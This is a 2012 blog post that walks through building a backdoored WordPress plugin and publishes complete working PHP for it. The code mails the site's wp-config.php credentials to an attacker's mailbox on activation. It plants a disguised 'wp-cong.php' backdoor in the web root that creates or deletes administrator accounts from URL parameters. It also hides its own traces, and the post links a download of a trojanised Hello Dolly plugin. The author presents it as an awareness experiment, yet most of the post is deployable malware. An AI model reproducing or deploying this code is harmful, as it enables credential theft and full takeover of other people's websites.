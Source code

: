 ```yaml
---
date: "2012-07-04 11:11:42"
title: How a wordpress plugin or theme hack your site
---
```


I’ve been using wordpress for a few months, it’s such a powerful and enjoyable tool to me. I use it both for blogging and building websites. Themes and plugins are two important aspects that make wordpress great and I can never spend enough time exploring them. Gradually however, I learnt that I shouldn’t download and install them so freely without considering whether their sources are safe or not. In order to better understand how easy it is for a third-party theme/plugin to hack my website, I myself, wrote a hacking script. And to my greatest surprise, it works!

All you need to do is to put a nine-line code and two tiny php files into a theme or plugin, then once the website owner click “Activate”, it’s done. The script is able to hide itself, moreover uninstalling the theme/plugin won’t save the website owner. You’ll see how it works below.

The script I wrote mainly has two functions:

One is to send website’s wp-config.php file to hacker’s mailbox, so the hacker knows a new website just got hacked, meanwhile, wp-config.php contains some information which can be quite useful（some people use same password for both database and wordpress account, not a good idea – - ）

The other function is to leave a backdoor for the hacker to control the website whenever he wants. For example, if carelessblogger.com is hacked by this script, anyone can type “[carelessblogger.com/wp-cong.php?s=hack&w=hack](http://carelessblogger.com/wp-cong.php?s=hack&w=hack)” at browser’s address bar, press enter, then an admin-role account with username “hack” and password “hack” is created. People can use this account to log into the website with admin power. After stealing information, they can then type “[carelessblogger.com/wp-cong.php?s=hack](http://carelessblogger.com/wp-cong.php?s=hack)” again to delete this account so that their trace won’t be found. Moreover, typing “[carelessblogger.com/wp-cong.php?s=hack&t=disappear](http://carelessblogger.com/wp-cong.php?s=hack&t=disappear)” will delete the backdoor script itself. (it doesn’t have to be “disappear”, anything but “0″ will do, the file-deleting command only works while deleting the user, it’s designed this way in case you delete the file but forget to delete the user you just created.)

The above two functions are put into two different files:

The email notification function is put in a file called “email.php” :

<pre><code> 
 //revised from Jim Plush’s HTML EMAIL WITH JPEG ATTACHMENTS TUTORIAL  
 function email_notification()  {

$theurl = (!empty($_SERVER['HTTPS'])) ? “https://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'] : “http://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'];

$to = ‘youremail@email.com’;  
 $subject = ‘A new site is hacked : P’ ;  
 $bound_text = “whateverdoesntmatter”;  
 $bound = “–”.$bound_text.”\r\n”;  
 $bound_last = “–”.$bound_text.”–\r\n”;

$headers = “From: $theurl \r\n”;  
 $headers .= “MIME-Version: 1.0\r\n”  
 .”Content-Type: multipart/mixed; boundary=\”$bound_text\””;

$message .= “MIME not accepted!\r\n”  
 .$bound;

$message .= “Content-Type: text/html; charset=\”iso-8859-1\”\r\n”  
 .”Content-Transfer-Encoding: 7bit\r\n\r\n”  
 .”Life is ilke a boat: )\r\n”  
 .$bound;

$file = file_get_contents(“../../../wp-config.php”);

$message .= “Content-Type: image/jpg; name=\”wp-config.php\”\r\n”  
 .”Content-Transfer-Encoding: base64\r\n”  
 .”Content-disposition: attachment; file=\”wp-config.php\”\r\n”  
 .”\r\n”  
 .chunk_split(base64_encode($file))  
 .$bound_last;

mail($to, $subject, $message, $headers);

}

function create_file()  {

$theurl = (!empty($_SERVER['HTTPS'])) ? “https://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'] : “http://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'];

$gotourl = substr($theurl,0,-40) . ‘wp-admin/plugins.php’ ;

email_notification();  
 rename(‘backdoor.php’, ‘../../../wp-cong.php’);  
 unlink(‘email.php’);  
 header(‘Location: ‘ . $gotourl);

}

create_file();

</code></pre>

The backdoor function is put into a file called “backdoor.php” :

<pre><code>

require_once(‘wp-blog-header.php’);  
require_once(‘wp-admin/includes/user.php’);  
require_once(‘wp-includes/load.php’);

$newusername = $_GET["s"];  
$newpassword = $_GET["w"];

// Check that user doesn’t already exist  
 if ( !username_exists($newusername) )  
 {  
 // Create user and set role to administrator  
 $user_id = wp_create_user( $newusername, $newpassword);  
 if ( is_int($user_id) )  
 {  
 $wp_user_object = new WP_User($user_id);  
 $wp_user_object->set_role(‘administrator’);  
 echo ‘user created!’;  
 }  
 else {  
 echo ‘Error. Not created.’;  
 }  
 }  
 else {  
 $user_id = username_exists( $newusername );

wp_delete_user( $user_id);  
 echo ‘user deleted!’;

if ($_GET["t"]){  
 unlink(‘wp-cong.php’);  
 echo ‘file deleted!’;

}

}

</code></pre>

Finally, I put the following code into the main php file of the original theme/plugin (this example is for a plugin):

<pre><code>  
 register_activation_hook(__FILE__, ‘my_plugin_activate’);  
 add_action(‘admin_init’, ‘my_plugin_redirect’);  
 function my_plugin_activate() {  
 add_option(‘my_plugin_do_activation_redirect’, true);}  
 function my_plugin_redirect() {  
 if (get_option(‘my_plugin_do_activation_redirect’, false)) {  
 delete_option(‘my_plugin_do_activation_redirect’);  
 wp_redirect(home_url().’/wp-content/plugins/pluginname/email.php’);}  
 }  
</code></pre>

All done! The theme/plugin’s original function won’t be affected at all and neither email.php and backdoor.php can be found in theme/plugin folder after “Activate” is pressed so that the website owner won’t be able to pinpoint which theme/plugin did it. “Email.php” is deleted permanently and “backdoor.php” is moved to the root, name changed to “wp-cong.php” (name is changed so because I feel it might be a little bit harder to be found among “wp-comments-post.php”, “wp-config-sample.php”， “wp-config.php”， “wp-cron.php“)

If the website owner read codes very carefully then he/she might be able to find the above nine lines of code, and that’s all he/she can find.

My conclusion of this tiny experiment is that even a newbie can make a  malicious theme/plugin to fully take control of your site easily, so If you happen to read this post, I hope you’ll be more aware of the dangerous of using third-party themes/plugins and never attempt to hack others’ website (IT’S ILLEGAL, DON’T DO IT!). And if the later happens unfortunately, I won’t take any responsibility.

Here is an example using Hello Dolly plugin (remember to change youremail@email.com to your own email and you can only use it for yourself)

[Download](https://architech-blog.s3-ap-southeast-1.amazonaws.com/content/images/uploads/2012/09/hello-dolly.zip "hello dolly with backdoor")
